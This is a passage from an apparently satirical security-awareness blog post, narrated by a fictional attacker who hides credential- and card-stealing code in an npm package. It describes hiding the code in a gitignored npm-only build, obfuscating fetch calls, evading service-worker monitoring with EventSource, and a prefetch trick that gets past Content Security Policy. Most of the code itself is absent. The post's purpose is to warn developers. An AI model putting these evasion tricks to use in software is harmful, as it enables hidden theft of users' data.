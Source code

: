 In my package.json I’ve defined the files property to point to a lib directory that contains the minified, uglified nasty code — this is what npm publish will send to npm. But lib is in my .gitignore so it never makes its way to GitHub. This is a pretty common practice so it doesn’t even look suspect if you read through these files on GitHub.

This is not an npm problem, even if I’m not delivering different code to npm and GitHub, who’s to say that what you see in /lib/package.min.js is the real result of minifying /src/package.js?

So no, you won’t find my nasty code anywhere on GitHub.

#### I read the minified source of all code in node_modules!

OK now you’re just making up objections. But maybe you’re thinking you could write something clever that automatically checks code for anything suspicious.

You’re still not going to find much that makes sense in my source, I don’t have the word fetch or XMLHttpRequest anywhere, or the domain that I’m sending to. My fetch code looks like this:

“gfudi” is just “fetch” with each letter shifted up by one. Hard core cryptography right there. self is an alias for window.

self['\u0066\u0065\u0074\u0063\u0068'](...) is another fancy way of saying fetch(...).

The point: it is very difficult to spot shenanigans in obfuscated code, you’ve got no chance.

(With all that said, I don’t actually use anything as mundane as fetch, I prefer new EventSource(urlWithYourPreciousData) where possible. That way even if you’re being paranoid and monitoring outbound requests by using a serviceWorker to listen to fetch events, I will slink right by. I simply don’t send anything for browsers that support serviceWorker but not EventSource.)

#### I have a Content Security Policy!

Oh, do you now.

And did somebody tell you that this would prevent malicious code from sending data off to some dastardly domain? I hate to be the bearer of bad news, but the following four lines of code will glide right through even the strictest content security policy.

(In an earlier iteration of this post I said that a solid content security policy would keep you (and I quote) “100% safe”. Unfortunately 130k people read that before I learned the above trick. So I guess the lesson there is that you can’t trust any thing or any one on the internet.)

But CSPs aren’t completely unhelpful. The above only works in Chrome, and a decent CSP might block my efforts in some lesser-used browsers.

If you don’t know already, a content security policy can restrict what network requests can be made from the browser. It is designed to restrict what you can bring into the browser, but can also — as a side effect — limit the ways in which data can be sent out (when I ‘send’ passwords to my server, it’s just a query param on a get request).

In the event that I can’t get data out using the prefetch trick, CSPs are tricky for my credit card collection corporation. And not just because they neuter my nefarious intentions.

You see, if I try to send data out from a site that has a CSP, it can alert the site owner of the failed attempt (if they’ve specified a report-uri). They would eventually track this down to my code and probably call my mother and then I would be in big trouble.

